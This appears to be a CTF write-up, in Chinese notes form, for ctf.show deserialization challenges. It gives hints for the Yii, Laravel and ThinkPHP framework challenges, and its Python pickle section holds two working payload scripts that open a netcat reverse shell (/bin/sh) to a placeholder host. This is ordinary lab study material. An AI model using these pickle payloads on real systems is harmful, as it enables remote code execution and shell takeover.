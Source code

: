 

## 267-274|框架

---下面是框架题，等后面再细细研究

### 267-270 yii框架

about 源代码提示`<!--?view-source -->`

login弱口令admin/admin

访问url/?r=site/about&view-source得到反序列化点

poc和分析[我是怎么挖掘yii2反序列化0day的 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzU5MDI0ODI5MQ==&mid=2247485129&idx=1&sn=b27e3fe845daee2fb13bb9f36f53ab40)

### 271-273 Laravel

271：[laravelv5.7反序列化rce(CVE-2019-9081) | WisdomTree's Blog (laworigin.github.io)](https://laworigin.github.io/2019/02/21/laravelv5-7反序列化rce/)

272、273：[Laravel5.8.x反序列化POP链 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5911)

(二者php版本有点点差别，但poc没啥区别)

### 274 thinkphp5.1

[thinkphp5.1.x~5.2.x版本反序列化链挖掘分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6619)





## 277、278 python 反序列化

无回显，搞个反弹shell，不会整python的反弹shell，抄一下：

yu师傅的脚本：

```python
import pickle
import base64
class A(object):
	def __reduce__(self):
		return(eval,('__import__("os").popen("nc xxx.xxx.xxx.xxx 4567 -e /bin/sh").read()',))
a=A()
test=pickle.dumps(a)
print(base64.b64encode(test))
```



tari师傅的脚本

```python
import base64
import pickle
import requests

class a():
    def __reduce__(self):
        return(__import__("os").popen, ('nc xxx.xxx.xxx.xxx 4567 -e /bin/sh',))

a = a()
s = pickle.dumps(a)
s_base64 = base64.b64encode(s)

url = 'http://ae2307a8-9301-4c31-bb56-a70b7eb3af9b.challenge.ctf.show/backdoor'
params={
    'data': s_base64
}
```